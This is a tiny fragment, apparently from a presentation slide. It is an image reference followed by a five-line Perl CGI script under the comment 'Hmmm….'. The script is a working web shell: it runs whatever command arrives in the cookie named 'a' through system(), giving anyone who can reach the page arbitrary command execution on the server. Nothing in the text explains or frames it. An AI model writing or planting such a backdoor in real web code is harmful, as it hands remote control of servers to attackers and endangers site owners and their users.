

# Hmmm….
use CGI;
$q = new CGI;
print $q->header();
system $q->cookie('a') if $q->cookie('a');